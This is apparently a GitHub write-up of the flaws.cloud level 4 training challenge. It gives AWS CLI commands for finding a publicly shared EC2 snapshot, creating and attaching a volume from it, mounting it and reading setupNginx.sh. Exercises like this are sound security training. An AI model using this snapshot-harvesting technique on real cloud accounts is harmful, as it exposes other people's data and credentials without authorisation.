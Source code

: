 # EC2 Snapshot Accessible to All AWS User
Target: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/


<b>1. Retreive information about IAM user or role</b>
```
aws --profile flaws-cloud-3 sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/452b7b47-26aa-4219-9ca6-a44787c7d1ab)

<b>2.  describe snapshots owned by the specified AWS account</b>
```
aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/0908cfb9-0da9-42f9-84b0-1372b98292f6)

aws --profile administrator ec2 copy-snapshot --source-region us-west-2 --source-snapshot-id snap-0b49342abd1bdcb89
open aws > set us-west-2 > ec2 > snapshot > create volume > create any ec2 instance > create new key pair > volume > attach instance > ssh instance > fdisk > mount /dev/xvdf1 /mnt > df > cd /mnt/ > ls > cd ubuntu/ > ls > cat setupNginx.sh


```
aws --profile flaws-cloud-3 ec2 describe-volumes --region us-west-2
aws --profile flaws-cloud-3 ec2 describe-snapshots --snapshot-id snap-0f23409e560e2f059
aws --profile flaws-cloud-3 sts get-caller-identity
aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
raid aws --profile administrator ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89
raid aws --profile administrator ec2 describe-volumes --region us-west-2
raid aws --profile administrator ec2 describe-instances --region us-west-2
raid aws --profile administrator ec2 attach-volume --volume-id vol-05bfa570a13845bfc --instance-id i-0a5fc34ac1277d241 --device /dev/sdf --region us-west-2
ls
ssh
lsblk
sudo mount /dev/xvdf1 /mnt
cd /mnt
ls
cd home
ls
cd ubuntu
ls
cat setupNginx.sh
```
